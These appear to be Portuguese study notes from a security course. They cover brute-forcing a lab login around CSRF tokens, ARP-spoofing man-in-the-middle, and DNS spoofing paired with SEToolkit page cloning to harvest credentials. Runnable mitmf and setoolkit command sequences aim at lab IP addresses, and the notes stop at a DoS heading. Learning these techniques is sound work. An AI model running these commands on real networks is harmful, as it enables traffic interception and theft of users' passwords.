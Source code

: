 ```
      !Software de Bruit Force
      !Em um lab da Alura, temos o username "cake" e a password "123456" que informamos. Além disso, há um anticsrftoken. Ou seja, a cada requisição, será recebido um token utilizado contra ataques de CSRF. Dessa forma, cada usuário tem seu próprio token, evitando que outras pessoas façam a requisição por ele (como é feito no CSRF). O Hydra faz diversas requisições com username e password e pode ser que ele esteja usando o mesmo token para todas elas, por isso o ataque não funciona mais. Como o Burp é capaz informar um token diferente para cada requisição e fazer a força bruta, vamos utilizá-lo em vez do Hydra, para tentar entrar no sistema.
!Tesseract:
      * O Tesseract é uma IA utilizada para reconhecer caracteres a partir de um arquivo de imagem. Pode ser utilizada para descobrir o texto de captchas de imagens. 
      https://github.com/tesseract-ocr/tesseract
```


# Tipos de Ataques
```
!Man In the Middle (MITM):
      * O ataque Man In The Middle consiste em explorar a forma sem estado (stateless) na qual o protocolo ARP trabalha. Dessa forma, um Hacker pode usar de ferramentas para enviar respostas desse protocolo com o intuito de manipular a tabela ARP de suas vítimas para ficar assim no meio da comunicação e visualizar o que é trafegado entre os dispositivos manipulados.
        $ apt-get-install mitmf  => no kali linux
        $ mitmf --arp --spoof --target [IP vítima] --gateway [IP roteador] -i [interface]    => ex: mitm --arp --spoof --target 192.168.121.171 --gateway 192.168.121.1 -i eth0
        $ arp - a           => no pc da vítima antes e depois do ataque, veremos que o endereço MAC foi alterado
!DNS Spoofing:
      * O ataque de DNS Spoofing consiste em alterar a tradução entre URL e endereço IP para que essa url seja redirecionada a um endereço IP de controle do Hacker.
      * A ferramenta setoolkit é capaz de mandar emails para vítimas com nomes de outras pessoas. Dessa forma, ao passarmos um link com nome de outra pessoa, um usuário comum se tornará vulnerável ao ataque, uma vez que a mensagem parece ter sido enviada por um usuário confiável. No arquivo harvester que está no diretório /var/www/html deveremos ver o usuário e senha que digitamos.
        $ git clone https://gitbub.com/trustedsec/social-engineer-toolkit.git  => no kali linux, baixamos uma ferramenta capaz de clonar páginas da web.
        $ cd social-engineer-toolkit/
        $ ./setoolkit
        yes
        set>1
        set>2
        set:webattack>3
        /var/www/html  => site clonado estará aqui
        $ cd /etc/mitmf
        $ getit mitmd.conf
        $ *.alura.com.br=192.168.121.172  => redirecionar o site da alura para aquele ip que contem a página clonada
        $ mitmf --arp --spoof --target [IP vítima] --gateway [IP roteador] -i [interface] --dns   => ex: mitmf --arp --spoof --target 192.168.121.171 --gateway 192.168.121.1 -i eth0 --dns
    Ver: https://anonymousemail.me/]
    * Quando forçamos o redirecionamento para uma página de nosso controle, mesmo que um usuário mal intencionado tente mudar o redirecionamento, ele não terá sucesso. Podemos, por exemplo colocar em nossa programação, algo como:
      $ response.sendRedirect("http://www.meusite.com.br");
      Ao invés de:
      $ response.sendRedirect(request.getParameter("url"));
      ! Existem casos que por questão estratégica e de otimização, não queremos que certas páginas sejam indexadas em mecanismos de buscas. Dessa forma, precisamos informar a esses mecanismos de busca quais são as páginas de nosso site que não queremos que seja indexada e isso é feito através do arquivo robots.txt. Portanto, o robots.txt seria um arquivo no qual informamos como os mecanismos de busca devem indexar as páginas de nosso site. 
!DoS (Denial of Service):
```